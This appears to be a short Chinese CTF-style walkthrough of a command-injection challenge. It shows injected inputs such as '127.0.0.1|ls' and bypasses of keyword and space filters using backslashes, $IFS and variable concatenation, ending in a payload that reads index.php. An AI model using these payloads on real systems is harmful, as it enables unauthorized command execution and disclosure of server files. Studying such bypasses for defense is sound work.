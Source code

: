 构建`127.0.0.1|ls`试一下

发现ls被过滤，l\s试一下

![image-20240222161445580](image/image-20240222161445580.png)

说明\绕过存在

试一下l\s /

发现不行，推测是空格被过滤，尝试空格绕过,利用index进行测试

```
ca\t$IFSindex.php
```

![image-20240222161820247](image/image-20240222161820247.png)

发现识别了cat和空格指令，说明$IFS空格绕过存在

但是不让我们读取index.php

想办法绕过，这里我们使用拼接绕过

构建payload

```
127.0.0.1;a=in;b=dex.php;ca\t$IFS$a$b
```

